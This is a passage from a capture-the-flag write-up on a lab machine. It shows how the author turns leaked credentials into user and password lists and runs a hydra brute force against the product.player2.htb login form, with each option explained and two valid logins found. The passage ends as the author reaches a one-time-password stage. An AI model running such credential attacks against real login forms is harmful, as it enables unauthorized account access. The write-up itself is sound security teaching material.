 
#### Identify Valid Creds

With creds, I first tried SSH, but none worked. Then I tried the login form at
`http://product.player2.htb`. The first one I tried didn’t work, so I decided
to automate. I created username and password lists:

    
    
    root@kali# cat creds.json | jq -r .name | sort -u > users
    root@kali# cat creds.json | jq -r .pass | sort -u > passwords
    

Now I’ll run `hydra` to try all combinations of username and password. The
command breaks down as:

  * `-L users` \- list of usernames to try
  * `-P passwords` \- list of passwords to try
  * `product.player2.htb` \- site to try
  * `http-post-form` \- type of brute force
  * `"/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"`
    * `/` \- path to POST to
    * `username=^USER^&password=^PASS^&Submit=Sign+in` \- POST parameters, where `^USER^` and `^PASS^` will be replaced by usernames and passwords from the respective input lists
    * `alert` \- text to look for in the response that indicates failure

    
    
    root@kali# hydra -L users -P passwords product.player2.htb http-post-form "/:username=^USER^&password=^PASS^&Submit=Sign+in:alert"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-20 14:31:49
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
    [DATA] attacking http-post-form://product.player2.htb:80/:username=^USER^&password=^PASS^&Submit=Sign+in:alert
    [80][http-post-form] host: product.player2.htb   login: 0xdf   password: XHq7_WJTA?QD_?E2
    [80][http-post-form] host: product.player2.htb   login: mprox   password: tR@dQnwnZEk95*6#
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-20 14:31:50
    

So two of the username / password combinations work. When I try one manually,
it does work, and I’m taken to the second stage of login.

#### Get OTP Backup Codes

One giving good creds at the username / password form, I’m given another
check:

![image-20200120143539175](https://0xdfimages.gitlab.io/img/image-20200120143539175.png)

When I submit `123456`, I get the same `alert` box:

![image-20200120143808771](https://0xdfimages.gitlab.io/img/image-20200120143808771.png)

The HTTP response looks like:
